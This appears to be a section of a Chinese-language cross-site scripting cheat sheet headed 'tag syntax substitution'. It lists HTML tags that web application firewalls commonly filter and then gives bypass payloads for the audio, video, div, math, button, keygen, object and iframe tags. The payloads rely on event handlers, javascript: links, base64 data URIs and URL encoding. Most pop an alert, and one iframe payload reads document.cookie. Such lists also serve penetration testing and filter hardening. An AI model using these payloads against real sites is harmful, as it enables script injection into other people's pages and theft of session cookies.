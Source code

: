 ```
```
## 2.**标签语法替换**:
常见的WAF过滤的标签:
```
<script>  <a>  <p>  <img>  <body> <button>  <var>  <div>  <iframe>  <object> <input> 
<textarea>  <keygen> <frameset>  <embed>  <svg>  <math>  <video>  <audio> <select>
```

audio:
```
<audio src=x onerror=alert(47)>
<audio src=x onerror=prompt(1);>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
```

video:
```
<video src=x onerror=prompt(1);>
<video src=x onerror=alert(48)>
```

div:
```
<div style="width:expression(alert(/1/))">1</div>     ie浏览器执行
<div onmouseover%3d'alert%26lpar%3b1%26rpar%3b'>DIV<%2fdiv>   url编码绕过
```

math:
```
<math><a/xlink:href=javascript:prompt(1)>Xss

<math href="javascript:javascript:alert(1)">Xss</math>
```

button:
```
<button onfocus=alert(1) autofocus>
<button/onclick=alert(1) >xss</button>
```

keygen:
```
<keygen/onfocus=prompt(1);>
<keygen onfocus=javascript:alert(1) autofocus>
```

object:
```
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

base64加密：PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg    
      解码：<script>alert(1)</script>
```

ifame:
```
<IFRAME width%3d"420" height%3d"315" frameborder%3d"0" onload%3d"alert(document.cookie)"><%2fIFRAME>
<iframe%2fsrc%3d"data%3atext%2fhtml%3b%26Tab%3bbase64%26Tab%3b,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg%3d%3d">
<iframe srcdoc%3d'%26lt%3bbody onload%3dprompt%26lpar%3b1%26rpar%3b%26gt%3b'>
```
